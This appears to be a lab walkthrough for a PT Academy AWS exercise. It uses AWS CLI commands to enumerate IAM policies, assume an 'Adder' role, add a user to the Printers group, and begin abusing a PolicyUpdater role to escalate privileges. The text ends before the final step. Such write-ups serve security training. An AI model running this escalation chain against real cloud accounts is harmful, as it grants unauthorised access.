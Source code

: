 ### Dangerous Policy Combination II

First the profile has to be configured with the access keys provided by PT Academy

## Walkthrough

Get the attached user policies for `student` user which shows `IAMReadOnlyAccess` permission 

![image](https://user-images.githubusercontent.com/46797181/222863836-e087ae15-632c-4700-9537-0d8fa592fd96.png)

To get information about that attached policy, execute the below commands

```
aws iam list-user-policies --user-name student --profile PTAcademyJllerena
aws iam get-user-policy --user-name student --policy-name terraform-20230304005305909200000003 --profile PTAcademyJllerena

```
![image](https://user-images.githubusercontent.com/46797181/222868760-5cc5c2d0-0081-48c0-918f-34ce5cc9b98a.png)

Trying to create a user with `aws iam create-user --user-name jllerena --profile PTAcademyJllerena` will give a denied message direc

![image](https://user-images.githubusercontent.com/46797181/222869046-fa11aa80-93a7-4937-ac97-cbbfa03447f9.png)

Check Adder role policies and permissions. Also, check the role-policy document

```
aws iam list-role-policies --role-name Adder --profile PTAcademyJllerena
aws iam get-role-policy --role-name Adder --policy-name AddUser --profile PTAcademyJllerena 

```
![image](https://user-images.githubusercontent.com/46797181/222869512-0fd5c70d-5d77-4923-926a-397c12074313.png)

Role policy says that role Adder has permission to add any user to the Printers group. Next step is to assume Adder role with student user. `aws sts assume-role --role-arn arn:aws:iam::213923356313:role/Adder --role-session-name adder_jllerena --profile PTAcademyJllerena` 

![image](https://user-images.githubusercontent.com/46797181/222869789-58fb66f0-b288-4b69-a6e0-c3bb2eb9bbae.png)

Add student user to printers group and unset environment variable. 

```
aws iam add-user-to-group --group-name Printers --user-name student
unset AWS_ACCESS_KEY_ID
unset AWS_SECRET_ACCESS_KEY
unset AWS_SESSION_TOKEN

```
List groups for the student user. `aws iam list-groups-for-user --user-name student --profile PTAcademyJllerena`
![image](https://user-images.githubusercontent.com/46797181/222870473-52b827c6-77ba-4a26-b2bc-8bc21df7156b.png)

Check the policies attached to the PolicyUpdater role policies and check the role-policy document.
```
aws iam list-role-policies --role-name PolicyUpdater --profile PTAcademyJllerena
aws iam get-role-policy --role-name PolicyUpdater --policy-name CreatePolicyVersion --profile PTAcademyJllerena
```

![image](https://user-images.githubusercontent.com/46797181/222870852-ed359f25-7b31-462a-ac7b-12162fcffdd3.png)

Role policy says that role PolicyUpdater has permission to create a new PolicyVersion for `Print` policy. Check the policies attached to the group `Printers`. `aws iam list-attached-group-policies --group-name Printers --profile PTAcademyJllerena`

![image](https://user-images.githubusercontent.com/46797181/222871232-0a83488b-db51-4482-b054-cd0ae52b7a3b.png)





